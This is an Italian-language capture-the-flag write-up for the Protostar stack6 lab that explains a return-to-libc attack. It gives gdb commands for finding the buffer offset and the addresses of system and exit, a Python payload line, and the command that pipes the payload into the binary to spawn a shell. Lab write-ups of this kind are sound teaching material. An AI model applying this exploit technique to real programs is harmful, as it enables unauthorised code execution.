 Si tenta di eseguire un attacco di tipo **return to libc**, ovvero si reindirizza il flusso nello specifico alla funzizone *system()* di libc che permette di eseguire un comando specificato da parametro. Pur se non necessario si passa poi alla funzione *exit()* che permette di chiudere il programma senza crash (questo è evitabile dal momento che la shelle verrebbe comunque spawnata). Quindi in sostanza si vuole che il return address di *getpath* corrisponda all'indirizzo di *system* e il return address di *system* corrisponda all'indirizzo di *exit*.

Innanzitutto occorre calcolare la differenza tra inizio del buffer e return address di *getpath*, si procede quindi nello stesso modo visto nel livello precedente. In particolare:
```bash
unset env COLUMNS
unset env LINES

disas getpath
b *getpath+38 #chiamata di gets
run

info registers #eax contiene indirizzo di buffer
info frame #prelevare indirizzo di memoria di eip
```

La differenza tra i due indirizzi corrisponde alla dimensione del payload, a cui va aggiunto l'indirizzo di *system*, l'indirizzo di *exit* e infine l'indirizzo del buffer, che viene prelevato come parametro da *system* che interpreta il suo return address come *exit* e il suo parametro il buffer.

Per ottenere l'indirizzo di *system* e quello di *exit* occorre eseguire in gdb le seguenti istruizioni:
```bash
p &system
p &exit
```

Ottenuti anche questi due indirizzi si può proseguire con l'exploit tramite uno script python che genera un file di testo da dare in pipe all'eseguibile vulnerabile.
```py
print '/bin//sh\x00' + 'a' * 71 + system_address + exit_address + buffer_address  
```

Si genera il file di testo e si esegue l'exploit come fatto per il livello precedente.
```bash
(cat exploit.txt; cat) | /opt/protostar/bin/stack6
```